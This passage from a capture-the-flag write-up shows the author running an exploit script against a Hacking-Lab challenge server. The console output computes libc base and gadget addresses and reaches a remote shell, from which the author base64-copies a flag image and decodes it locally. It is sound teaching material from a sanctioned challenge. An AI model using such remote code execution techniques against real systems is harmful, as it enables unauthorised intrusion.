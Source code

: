 ##### Get the egg

I ran my exploit script and waited until the maze solver did his job and I got the shell. The real egg was located in the home directory of the `maze` user. I copied it directly from the console as a Base64 encoded string and stored it locally as [egg.base64](files/egg.base64).

```
$ ./maze_rce.py remote
[+] Opening connection to whale.hacking-lab.com on port 7331: Done
libc_start_main_offset:  0x20740
libc_start_main_addr:    0x7f3449a0d740
libc_base_addr:          0x7f34499ed000
libc_rce_gadget_offset:  0x4526a
libc_rce_gadget_addr:    0x7f3449a3226a
... (snip) ...
$ id
uid=1000(maze) gid=1000(maze) groups=1000(maze)
$ cd /home/maze
$ ls
egg.png
maze
$ base64 egg.png
iVBORw0KGgoAAAANSUhEUgAAAeAAAAHgCAYAAAB91L6VAAAABGdBTUEAALGPC/xhBQAAACBjSFJN
AAB6JgAAgIQAAPoAAACA6AAAdTAAAOpgAAA6mAAAF3CculE8AAAABmJLR0QA/wD/AP+gvaeTAAAA
CXBIWXMAADRjAAA0YwFVm585AAAAB3RJTUUH4wEGCRs5ve3N/QAAgABJREFUeNrsfXec5GZ9/vO+
0vTt7e5293pzvTvftjn3DtjGxqY7gEOLIQkmlB8EQ6gmgZDQAwFCCT2UQLAxxY1i46vu53I+X929
... (snip) ...
NTcrMDE6MDCFKdLpAAAAJXRFWHRkYXRlOm1vZGlmeQAyMDE5LTAxLTA2VDA4OjI3OjU3KzAxOjAw
9HRqVQAAABh0RVh0U29mdHdhcmUAcGFpbnQubmV0IDQuMS40E0BoxAAAAABJRU5ErkJggg==
```

Then I decoded it and got the egg.

```
$ base64 -d egg.base64 > egg.png
$ file egg.png
egg.png: PNG image data, 480 x 480, 8-bit/color RGBA, non-interlaced
```

### Egg

![egg.png](files/egg.png "egg.png")
